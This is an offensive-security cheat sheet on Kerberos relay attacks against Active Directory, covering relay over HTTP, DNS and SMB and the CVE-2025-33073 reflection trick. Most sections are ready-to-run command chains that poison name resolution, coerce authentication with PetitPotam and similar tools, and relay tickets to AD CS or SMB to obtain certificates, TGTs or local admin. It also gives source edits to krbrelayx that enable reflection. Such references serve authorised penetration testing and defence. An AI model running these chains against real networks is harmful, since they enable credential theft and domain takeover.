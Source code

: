 # Internal - Kerberos Relay

## Kerberos Relay over HTTP

**Requirements**:

* Kerberos authentication for services without signing

HTTP through multicast poisoning (LLMNR)

* An attacker sets up an LLMNR poisoner on the multicast range.
* An HTTP client on the multicast range fails to resolve a hostname. This can happen because of a typo in a browser, a misconfiguration, but this can also be triggered by an attacker via WebDav coercion.
* The LLMNR poisoner indicates that the hostname resolves to the attacker’s machine. In the LLMNR response, the answer name differs from the query and corresponds to an arbitrary relay target.
* The victim performs a request on the attacker web server, which requires Kerberos authentication.
* The victim asks for a ST with the SPN of the relay target. It then sends the resulting AP-REQ to the attacker web server.
* The attacker extracts the AP-REQ and relays it to a service of the relay target.

**Example**: ESC8 with Kerberos Relay

```ps1
python3 Responder.py -I eth0 -N <PKI_SERVER>
sudo python3 krbrelayx.py --target 'http://<PKI_SERVER>.<DOMAIN.LOCAL>/certsrv/' -ip <ATTACKER_IP> --adcs --template User -debug
```

## Kerberos Relay over DNS

Abuses the DNS Secure Dynamic Updates in Active Directory.

* [dirkjanm/mitm6](https://github.com/dirkjanm/mitm6)
* [dirkjanm/krbrelayx](https://github.com/dirkjanm/krbrelayx)
* [dirkjanm/PKINITtools](https://github.com/dirkjanm/PKINITtools)

```ps1
# Example - Relay to ADCS
sudo krbrelayx.py --target http://adscert.internal.corp/certsrv/ -ip 192.168.111.80 --victim icorp-w10.internal.corp --adcs --template Machine
sudo mitm6 --domain internal.corp --host-allowlist icorp-w10.internal.corp --relay adscert.internal.corp -v
python gettgtpkinit.py -pfx-base64 MIIRFQIBA..cut...lODSghScECP5hGFE3PXoz internal.corp/icorp-w10$ icorp-w10.ccache
```

## Kerberos Relay over SMB

Abuses the way SMB clients construct SPNs when asking for a ST.

* [cube0x0/KrbRelay](https://github.com/cube0x0/KrbRelay) - Framework for Kerberos relaying.
* [decoder-it/KrbRelayEx-RPC](https://github.com/decoder-it/KrbRelayEx-RPC) - Kerberos Relay and Forwarder for (Fake) RPC/DCOM MiTM Server.

```ps1
dnstool.py -u "DOMAIN.LOCAL\\user" -p "pass" -r "pki1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA" -d "10.10.10.10" --action add "10.10.10.11" --tcp
petitpotam.py -u 'user' -p 'pass' -d DOMAIN.LOCAL 'pki1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA' dc.domain.local
krbrelayx.py -t 'http://pki.domain.local/certsrv/certfnsh.asp' --adcs --template DomainController -v 'DC$'
gettgtpkinit.py -cert-pfx 'DC$.pfx' 'DOMAIN.LOCAL/DC$' DC.ccache
```

## Kerberos Reflection - CVE-2025-33073

Relay one machine to itself by using the `1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA` trick. Also, grants local admin privilege.

![reflective-kerberos-relay-attack](https://blog.redteam-pentesting.de/2025/reflective-kerberos-relay-attack/ReflectiveKerberosRelayAttackBlog_hu_4f4898429389ef25.webp)

* Add a DNS record for `[SERVERNAME] + 1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA` pointing to our IP address. It is also possible to compromise any vulnerable machine by registering `localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA`.

    ```ps1
    dnstool.py -u 'domain.local\username' -p 'P@ssw0rd' 10.10.10.10 -a add -r target1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 198.51.100.27
    # OR
    pretender -i "vmnet2" --spoof "target1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA" --no-dhcp --no-timestamps
    ```

* Edit `krbrelayx/lib/servers/smbrelayserver.py` and remove these lines

    ```ps1
    156: blob['tokenOid'] = '1.3.6.1.5.5.2'
    157: blob['innerContextToken']['mechTypes'].extend([MechType(TypesMech['KRB5 - Kerberos 5']),
    158:                                                MechType(TypesMech['MS KRB5 - Microsoft Kerberos 5']),
    159:                                                MechType(TypesMech['NTLMSSP - Microsoft NTLM Security Support Provider'])])
    ```

* Start the relay to catch the callback from TARGET.

    ```ps1
    krbrelayx.py -t TARGET.DOMAIN.LOCAL -smb2support
    krbrelayx.py --target smb://target.lab.redteam -c whoam
    ```

* Trigger a callback from the server to `[SERVERNAME] + 1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA` using PetitPotam.

    ```ps1
    nxc smb TARGET.domain.local -u username -p 'P@ssw0rd' -M coerce_plus -o M=Petitpotam LISTENER=target1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA
    # OR
    petitpotam.py -d domain.local -u username -p 'password' "TARGET1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA" "TARGET.DOMAIN.LOCAL"
    # OR
    wspcoerce 'lab.redteam/user:password@target.lab.redteam' file:////target1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA/path
    ```

## References

* [A Look in the Mirror - The Reflective Kerberos Relay Attack - RedTeam Pentesting - June 11, 2025](https://blog.redteam-pentesting.de/2025/reflective-kerberos-relay-attack/)
* [Abusing multicast poisoning for pre-authenticated Kerberos relay over HTTP with Responder and krbrelayx - Quentin Roland - January 27, 2025](https://www.synacktiv.com/publications/abusing-multicast-poisoning-for-pre-authenticated-kerberos-relay-over-http-with)
* [From NTLM relay to Kerberos relay: Everything you need to know - Decoder - April 24, 2025](https://decoder.cloud/2025/04/24/from-ntlm-relay-to-kerberos-relay-everything-you-need-to-know/)
* [NTLM reflection is dead, long live NTLM reflection! – An in-depth analysis of CVE-2025-33073 - Wilfried Bécard and Guillaume André - June 11, 2025](https://www.synacktiv.com/en/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025)
* [Relaying Kerberos over DNS using krbrelayx and mitm6 - Dirk-jan Mollema - February 22, 2022](https://dirkjanm.io/relaying-kerberos-over-dns-with-krbrelayx-and-mitm6/)
* [Relaying Kerberos over SMB using krbrelayx - Hugo Vincent - November 20, 2024](https://www.synacktiv.com/publications/relaying-kerberos-over-smb-using-krbrelayx)
* [Using Kerberos for Authentication Relay Attacks - James Forshaw - October 20, 2021](https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html)
* [Windows Exploitation Tricks: Relaying DCOM Authentication - James Forshaw - October 20, 2021](https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html)
